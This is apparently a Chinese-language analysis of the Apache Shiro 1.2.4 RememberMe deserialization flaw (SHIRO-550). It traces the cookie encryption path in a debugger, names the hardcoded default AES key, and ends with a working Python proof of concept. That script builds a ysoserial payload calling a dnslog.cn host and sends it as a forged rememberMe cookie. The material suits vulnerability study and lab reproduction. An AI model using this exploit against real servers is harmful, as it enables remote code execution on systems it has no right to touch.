

org.apache.shiro.web.mgt.CookieRememberMeManager#forgetIdentity(javax.servlet.http.HttpServletRequest, javax.servlet.http.HttpServletResponse)
Apache Shiro 是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。
Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为 RememberMe 的 Cookie 中。攻击者可以使用 Shiro 的默认密钥伪造用户 Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。
SHIRO-550
在识别身份的时候，需要对 Cookie 里的 RememberMe 字段解密,解密的顺序为：
但是，AES 加密的秘钥被硬编码在代码里，每个人通过源代码都可以拿到 AES 加密的密钥。所以当攻击者将恶意的 payload 进行序列化、AES 加密、base64 编码，作为 Cookie 的 RememberMe 字段发送。Shiro 将 RememberMe 进行解密并且反序列化，最终造成反序列化漏洞。
获取 Apache Shiro 存在漏洞的源代码
git clone https://github.com/apache/shiro.git
cd shiro
git checkout shiro-root-1.2.4
修改 /shiro/samples/web/pom.xml
<dependency>
<groupId>javax.servlet</groupId>
<artifactId>jstl</artifactId>
<version>1.2</version>
<scope>runtime</scope>
</dependency>
<dependency>
<groupId>taglibs</groupId>
<artifactId>standard</artifactId>
<version>1.1.2</version>
<scope>runtime</scope>
</dependency>
然后用idea导入mvn项目
设置run/debug configurations， 添加本地tomcat环境
在 org.apache.shiro.mgt.RememberMeManager#onSuccessfulLogin 处添加断点，然后debug 开启 tomcat 服务
登录账户root/secret，勾选上Remember Me的按钮，程序会停在断点处，用户名和密码也会存储在 token 中
forgetIdentity 针对 subject 变量进行处理，跟进 forgetIdentity 方法
org.apache.shiro.web.mgt.CookieRememberMeManager#forgetIdentity(org.apache.shiro.subject.Subject)
调用 forgetIdentity 构造方法处理 request 和 reponse 请求
org.apache.shiro.web.mgt.CookieRememberMeManager#forgetIdentity(javax.servlet.http.HttpServletRequest, javax.servlet.http.HttpServletResponse)
跟进 removeFrom 方法，在 response 响应头中加入了一些cookie信息。
org.apache.shiro.web.servlet.SimpleCookie#removeFrom
回到 onSuccessfulLogin
调用 rememberIdentity 生成 cookie 中的 remember 字段。跟进 rememberIdentity 方法。
org.apache.shiro.mgt.AbstractRememberMeManager#rememberIdentity(org.apache.shiro.subject.Subject, org.apache.shiro.authc.AuthenticationToken, org.apache.shiro.authc.AuthenticationInfo)
通过 getIdentityToRemember 获取用户的身份，继续跟进 rememberIdentity 方法。
org.apache.shiro.mgt.AbstractRememberMeManager#rememberIdentity(org.apache.shiro.subject.Subject, org.apache.shiro.subject.PrincipalCollection)
调用 convertPrincipalsToBytes 方法将 accountPrincipals <“root”> 转换为字节形式，跟进 convertPrincipalsToBytes 方法。
org.apache.shiro.mgt.AbstractRememberMeManager#convertPrincipalsToBytes
转换过程中首先对用户的 id 进行序列化，然后利用 encrypt 进行加密。
org.apache.shiro.mgt.AbstractRememberMeManager#encrypt
加密的密钥由getEncryptionCipherKey()得到
getEncryptionCipherKey 实际上是开头中的 DEFAULT_CIPHER_KEY_BYTES 的常量 kPH+bIxk5D2deZiIxcaaaA==
继续单步执行，返回 rememberIdentity 函数
跟进函数 rememberSerializedIdentity org.apache.shiro.web.mgt.CookieRememberMeManager#rememberSerializedIdentity
对值进行 base64 编码之后，设置到 cookie 中。
当我们勾选 RememberMe 选项框之后，点击登陆之后，后端会进行如下操作。

在 org.apache.shiro.mgt.DefaultSecurityManager#getRememberedIdentity 添加断点，然后发送一个带有 readmemberMe cookie的请求。
跟进函数 getRememberedPrincipals
org.apache.shiro.mgt.AbstractRememberMeManager#getRememberedPrincipals
调用 getRememberedSerializedIdentity 针对http请求进行处理，跟进 getRememberedSerializedIdentity
org.apache.shiro.web.mgt.CookieRememberMeManager#getRememberedSerializedIdentity
getCookie 构造方法先获取 cookie 信息,readValue 方法，根据 Cookie 中的 name 字段获取 Cookie 的值，然后返回 Cookie 的值
然后调用 byte[] decoded = Base64.decode(base64)处理 base64 加密的 Cookie 信息，并且将这个 Cookie 转化为二进制字节码
回到 getRememberedPrincipals，继续跟进 convertBytesToPrincipals 函数
org.apache.shiro.mgt.AbstractRememberMeManager#convertBytesToPrincipals
AES 解密 org.apache.shiro.mgt.AbstractRememberMeManager#decrypt
反序列化 org.apache.shiro.mgt.AbstractRememberMeManager#deserialize
org.apache.shiro.io.DefaultSerializer#deserialize
看到 readObject()
当我们发送带有 readmemberMe cookie的请求，后端会进行如下操作。
#!/usr/bin/env python3
# coding:utf-8
from Crypto.Cipher import AES
import traceback
import requests
import subprocess
import uuid
import base64
target = "http://localhost:8080/samples_web_war/"
jar_file = 'F:\\Penetration\\ysoserial\\ysoserial-0.0.6-SNAPSHOT-all.jar'
cipher_key = "kPH+bIxk5D2deZiIxcaaaA=="
# 创建 rememberme的值
popen = subprocess.Popen(['java','-jar',jar_file, "URLDNS", "http://7zhfmm.dnslog.cn"],
stdout=subprocess.PIPE)
BS = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
mode = AES.MODE_CBC
iv = uuid.uuid4().bytes
encryptor = AES.new(base64.b64decode(cipher_key), mode, iv)
file_body = pad(popen.stdout.read())
base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
# 发送request
try:
r = requests.get(target, cookies={'rememberMe':base64_ciphertext.decode()}, timeout=10)
except:
traceback.print_exc()